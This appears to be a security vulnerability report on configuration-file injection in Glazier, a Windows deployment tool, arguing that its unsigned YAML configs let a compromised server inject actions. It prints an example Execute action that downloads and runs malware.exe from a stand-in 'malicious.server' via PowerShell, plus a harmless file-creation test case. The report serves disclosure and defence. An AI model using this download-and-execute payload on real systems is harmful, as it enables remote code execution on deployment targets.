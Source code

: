 ### Vulnerability List

- Vulnerability Name: **Configuration File Injection**
- Description:
    1. Glazier retrieves configuration files (YAML) from a web server using HTTPS.
    2. Glazier parses these configuration files to determine the actions to be performed during Windows deployment.
    3. If an attacker gains control of the web server hosting the configuration files, they can modify these YAML files.
    4. By modifying the configuration files, the attacker can inject arbitrary actions into the Glazier deployment process.
    5. These malicious actions will be executed on the target Windows systems during deployment, as Glazier blindly trusts the content of the configuration files from the server.
- Impact:
    - **Critical**. Successful exploitation allows a remote attacker to execute arbitrary code on target Windows systems during the deployment process. This can lead to:
        - Complete system compromise.
        - Installation of malware, backdoors, or ransomware.
        - Data theft or modification.
        - Denial of service by rendering systems unusable.
        - Privilege escalation.
- Vulnerability Rank: **Critical**
- Currently Implemented Mitigations:
    - **HTTPS for communication**: Glazier uses HTTPS to retrieve configuration files and payloads. This encrypts the communication channel, protecting against man-in-the-middle attacks during transit, but it does not verify the integrity or authenticity of the content originating from the server itself.
        - Location: Described in `/code/README.md` ("Glazier distributes all data over HTTPS").
- Missing Mitigations:
    - **Integrity and Authenticity Checks for Configuration Files**: Glazier lacks any mechanism to verify the integrity and authenticity of the configuration files. This could be implemented using:
        - **Digital Signatures**: Signing the configuration files using a private key and verifying the signature using a corresponding public key within Glazier.
        - **Checksum Verification**:  Calculating a cryptographic hash (e.g., SHA256) of the configuration files and verifying this hash against a known trusted value stored securely within Glazier or fetched from a separate trusted source.
- Preconditions:
    1. **Attacker Access to Web Server**: The attacker must compromise the web server that hosts the Glazier configuration files. This could be achieved through various means, such as exploiting vulnerabilities in the web server software, gaining access to server credentials, or social engineering.
    2. **Glazier Instance configured to use compromised server**: Target Glazier instances must be configured to fetch configuration files from the compromised web server.
- Source Code Analysis:
    1. **Configuration File Fetching**: Glazier uses the `requests` library to fetch configuration files over HTTPS.
        - File: `/code/glazier/lib/config/builder.py` (and potentially other modules involved in network requests).
        - Code inspection is needed to confirm the exact method of fetching and parsing YAML files.
    2. **YAML Parsing**: Glazier uses `PyYAML` to parse the fetched YAML configuration files.
        - File: `/code/glazier/lib/config/builder.py` (and potentially other modules handling YAML parsing).
        - Code inspection is needed to verify how YAML files are loaded and processed into actions.
    3. **Action Execution**: The `ConfigRunner` executes actions defined in the parsed configuration files.
        - File: `/code/glazier/lib/config/runner.py`
        - Code inspection is needed to understand how actions are dynamically loaded and executed based on the YAML configuration.

    **Vulnerability Trigger**:
    - The vulnerability is triggered when Glazier fetches and processes a malicious configuration file from a compromised web server.
    - The lack of integrity checks allows Glazier to proceed with parsing and executing the attacker's injected malicious actions without any warning or error.
    - For example, an attacker could modify a `build.yaml` file on the web server to include a malicious `Execute` action that downloads and runs malware on the target system.

    ```python
    # Example of malicious YAML injection in build.yaml on the compromised server:
    controls:
      - Execute:
        - ['powershell.exe -Command "Invoke-WebRequest -Uri http://malicious.server/malware.exe -OutFile C:\\Windows\\Temp\\malware.exe; C:\\Windows\\Temp\\malware.exe"']
    ```
    - When Glazier processes this modified `build.yaml`, it will download `malware.exe` from the attacker's server and execute it on the target Windows system.

- Security Test Case:
    1. **Setup a Glazier Test Environment**:
        - Deploy a Glazier instance in a test environment.
        - Configure Glazier to fetch configuration files from a web server you control (for testing purposes, this can be a local web server).
    2. **Prepare a Malicious Configuration File**:
        - Create a modified `build.yaml` file that includes a malicious action. For example, use the `Execute` action to create a file on the target system as evidence of code execution.
        ```yaml
        controls:
          - Execute:
            - ['powershell.exe -Command "New-Item -ItemType File -Path C:\\pwned.txt -Value \'You have been PWNED!\'"]
        ```
    3. **Replace the legitimate `build.yaml` on the test web server with the malicious `build.yaml`**.
    4. **Initiate a Glazier deployment on a test Windows system**, pointing it to the test web server with the malicious configuration.
    5. **Observe the Target System**:
        - After Glazier deployment completes (or during if possible to monitor), check the test Windows system.
        - Verify that the file `C:\pwned.txt` has been created with the content "You have been PWNED!".
    6. **Expected Result**: The file `C:\pwned.txt` should be present on the target system, demonstrating successful execution of the injected malicious action from the modified configuration file. This confirms the Configuration File Injection vulnerability.